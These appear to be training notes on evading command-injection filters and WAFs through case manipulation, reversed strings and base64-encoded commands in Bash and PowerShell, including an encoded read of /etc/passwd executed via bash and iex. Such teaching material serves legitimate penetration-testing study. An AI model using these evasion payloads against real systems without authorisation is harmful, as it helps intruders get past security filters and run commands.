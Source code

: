 In some instances, we may be dealing with advanced filtering solutions, like Web Application Firewalls (WAFs), and basic evasion techniques may not necessarily work. We can utilize more advanced techniques for such occasions, which make detecting the injected commands much less likely.

## Case Manipulation

One obfuscation technique is case manipulation, like inverting the character cases of a command (e.g. `WHOAMI`) or alternating between cases (e.g. `WhOaMi`). This usually works because a command black list may not check for different case variations of a single word, as Linux systems are case sensitive.

Powershell and CMD are case-insensitive, so we can send the command with changed casting:
```powershell-session
PS C:\htb> WhOaMi

21y4d
```

In case of Linux we will need to use a command that turns the command into an all-lowercase word:
```shell-session
$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")

21y4d
```

This command can still fail in case of filtered characters (for example space), so we should replace those too (for example `%09`).

There are many other commands we may use for the same purpose, like the following:
```bash
$(a="WhOaMi";printf %s "${a,,}")
```

## Reverse Commands

We can reverse commands and have a command template that switches them back and executes them in real time.

Here is an example of a command to get a reverse string:
```shell-session
$ echo 'whoami' | rev
imaohw
```

Then, we can execute the original command by reversing it back in a sub-shell (`$()`), as follows:
```shell-session
$ $(rev<<<'imaohw')

21y4d
```

Tip: If you wanted to bypass a character filter with the above method, you'd have to reverse them as well, or include them when reversing the original command.

The same can be applied in `Windows.` We can first reverse a string, as follows:
```powershell-session
PS C:\htb> "whoami"[-1..-20] -join ''

imaohw
```

We can now use the below command to execute a reversed string with a PowerShell sub-shell (`iex "$()"`), as follows:
```powershell-session
PS C:\htb> iex "$('imaohw'[-1..-20] -join '')"

21y4d
```

## Encoded Commands

This technique is helpful for commands containing filtered characters or characters that may be URL-decoded by the server. This may allow the command to get messed up by the time it reaches the shell and eventually fails to execute. If we make our own unique obfuscation command instead of taking one online, it's much less likely to be denied by a filter or a WAF. The command we create will be unique to each case, depending on what characters are allowed and the level of security on the server.

We can utilize various encoding tools, like `base64` (for b64 encoding) or `xxd` (for hex encoding). Let's take `base64` as an example. First, we'll encode the payload we want to execute (which includes filtered characters):
```shell-session
$ echo -n 'cat /etc/passwd | grep 33' | base64

Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
```

Now we can create a command that will decode the encoded string in a sub-shell (`$()`), and then pass it to `bash` to be executed (i.e. `bash<<<`), as follows:
```shell-session
$ bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

Tip: Note that we are using `<<<` to avoid using a pipe `|`, which is a filtered character.

Now we can use this command (once we replace the spaces) to execute the same command through command injection.

### Burp Post Request
![[cmdinj_filters_commands_6.jpg]]

Even if some commands were filtered, like `bash` or `base64`, we could bypass that filter with the techniques we discussed in the previous section (e.g., character insertion), or use other alternatives like `sh` for command execution and `openssl` for b64 decoding, or `xxd` for hex decoding.

We use the same technique with Windows as well. First, we need to base64 encode our string, as follows:
```powershell-session
PS C:\htb> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))

dwBoAG8AYQBtAGkA
```

We may also achieve the same thing on Linux, but we would have to convert the string from `utf-8` to `utf-16` before we `base64` it, as follows:
```shell-session
$ echo -n whoami | iconv -f utf-8 -t utf-16le | base64

dwBoAG8AYQBtAGkA
```

Finally, we can decode the b64 string and execute it with a PowerShell sub-shell (`iex "$()"`), as follows:
```powershell-session
PS C:\htb> iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"

21y4d
```

As we can see, we can get creative with `Bash` or `PowerShell` and create new bypassing and obfuscation methods that have not been used before, and hence are very likely to bypass filters and WAFs. Several tools can help us automatically obfuscate our commands.

In addition to the techniques we discussed, we can utilize numerous other methods, like wildcards, regex, output redirection, integer expansion, and many others. We can find some such techniques on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-with-variable-expansion).